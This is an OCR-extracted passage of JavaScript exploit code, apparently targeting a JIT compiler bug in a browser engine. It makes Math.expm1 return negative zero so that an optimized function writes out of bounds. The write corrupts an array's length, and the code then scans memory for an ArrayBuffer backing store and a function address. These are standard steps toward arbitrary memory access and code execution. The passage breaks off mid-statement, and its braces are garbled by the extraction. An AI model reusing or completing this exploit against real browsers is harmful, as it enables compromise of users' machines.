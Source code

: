 ```
    var data_view = new DataView(ab);

    function opt_me(x) `{`
        var oob_arr = [1.1, 1.2, 1.3, 1.4, 1.5, 1.6];
        big_arr = [1.1, 1.2];
        ab = new ArrayBuffer(0x233);
        data_view = new DataView(ab);

        let obj = `{`
            a: -0
        `}`;
        let idx = Object.is(Math.expm1(x), obj.a) * 10;

        var tmp = f2u(oob_arr[idx])[0];
        oob_arr[idx] = u2f(0x234, tmp);
    `}`
    for (let a = 0; a &lt; 0x1000; a++)
        opt_me(0);

    opt_me(-0);
    var optObj = `{`
        flag: 0x266,
        funcAddr: opt_me
    `}`;

    log("[+] big_arr.length: " + big_arr.length);

    if (big_arr.length != 282) `{`
        log("[-] Can not modify big_arr length !");
        return;
    `}`
    var backing_store_idx = -1;
    var backing_store_in_hign_mem = false;
    var OptObj_idx = -1;
    var OptObj_idx_in_hign_mem = false;

    for (let a = 0; a &lt; 0x100; a++) `{`
        if (backing_store_idx == -1) `{`
            if (f2u(big_arr[a])[0] == 0x466) `{`
                backing_store_in_hign_mem = true;
                backing_store_idx = a;
            `}` else if (f2u(big_arr[a])[1] == 0x466) `{`
                backing_store_in_hign_mem = false;
                backing_store_idx = a + 1;
            `}`
        `}`

        else if (OptObj_idx == -1) `{`
            if (f2u(big_arr[a])[0] == 0x4cc) `{`
                OptObj_idx_in_hign_mem = true;
                OptObj_idx = a;
            `}` else if (f2u(big_arr[a])[1] == 0x4cc) `{`
                OptObj_idx_in_hign_mem = false;
                OptObj_idx = a + 1;
            `}`
        `}`

    `}`

    if (backing_store_idx == -1) `{`
        log("[-] Can not find backing store !");
        return;
    `}` else
```